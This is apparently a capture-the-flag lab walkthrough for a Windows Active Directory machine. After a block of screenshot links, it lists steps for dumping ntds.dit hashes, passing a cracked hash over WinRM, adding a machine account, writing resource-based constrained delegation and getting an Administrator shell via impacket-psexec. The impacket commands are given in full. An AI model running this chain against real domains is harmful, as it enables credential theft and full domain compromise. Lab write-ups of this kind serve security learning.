 
![image](https://github.com/user-attachments/assets/fc0f4153-e07b-4061-a969-b07e99667881)
![image](https://github.com/user-attachments/assets/83f0c4e6-0ee9-472e-90b1-7a8fda5f5c4f)
![image](https://github.com/user-attachments/assets/f907684a-69c1-4f7e-b4f8-039369ede0d5)
![image](https://github.com/user-attachments/assets/1b0da170-3e31-4d36-9e4e-7c98ae7d670b)
![image](https://github.com/user-attachments/assets/b31d5884-15bd-49e1-95b7-f9ab03db58fc)
![image](https://github.com/user-attachments/assets/f6bbf820-bc37-4988-b3b6-30d684bf2cbc)
![image](https://github.com/user-attachments/assets/369f21bf-8b1e-40ee-841d-c7aefe183812)
![image](https://github.com/user-attachments/assets/7757337c-fa4b-4f13-a9bd-8d029580a5cf)
![image](https://github.com/user-attachments/assets/e4d3327e-5635-4c79-83a1-989c00484520)
![image](https://github.com/user-attachments/assets/26c42e64-326e-4e88-b05e-bb2c855c0087)
![image](https://github.com/user-attachments/assets/1c93bd31-0222-40be-ab2f-db5f96f566e3)
![image](https://github.com/user-attachments/assets/c5adbfcd-7b81-4338-abbd-fdacb88b3bd3)
![image](https://github.com/user-attachments/assets/d886a818-5176-454e-9466-53f0a54571a9)

![image](https://github.com/user-attachments/assets/c9c99a95-c2a9-402f-935e-e3ddf9dea23e)
![image](https://github.com/user-attachments/assets/1026f7d2-2d21-4faa-87c6-00879e30f4b0)
![image](https://github.com/user-attachments/assets/5877ba44-d307-4947-8deb-ae1bc8bdf957)
![image](https://github.com/user-attachments/assets/83f95c61-f1e4-4c5e-9dbe-39f752759f34)
![image](https://github.com/user-attachments/assets/81a15204-bfc4-4c9b-ab08-9196a9f50843)
![image](https://github.com/user-attachments/assets/ad1a5e48-60f0-4f60-b971-bfb2f2e37c01)
![image](https://github.com/user-attachments/assets/7fb116cb-e733-46a4-8c3a-6f22b47b7b95)
![image](https://github.com/user-attachments/assets/b7fefafc-42fe-482b-a31c-698ee416d19c)

1. enum4linux-ng -A <IP> --> get users, and description for V.Ventz contains info likely password

2. V.Ventz creds to enum SMB --> get ntds.dit & SYSTEM --> impacket-secretsdump, get user names & ntlm hashes

3. crackmapexec winrm --> user L.Livingstone & hash valid (Pwn3rd!)

4. Evil-WinRM as L.Livingstone --> get local flag

5. L.Livingstone is a Domain User and has SeMachineAccountPrivilege Enabled (able to add workstations to domain)

6. add new computer
   ```
   impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.210.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'newpc' -computer-pass 'newpc''
   ```

   7. assign Resource-Based Constrained Delegation (RBCD)
      ```
      impacket-rbcd -dc-ip 192.168.210.175 -delegate-from newpc$ -delegate-to RESOURCEDC$ -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -action write resourced.local/l.livingstone
   ```

   8. set correct FQDN for Kerberos TGS & SPN --> /etc/hosts  192.168.210.175 resourcedc.resourced.local

   9. impacket-psexec, via Kerberos ticket（ccache）, get shell as Administrator
   ```
   sudo KRB5CCNAME=Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache impacket-psexec -k -no-pass resourced.local/Administrator@resourcedc.resourced.local -dc-ip 192.168.210.175
```
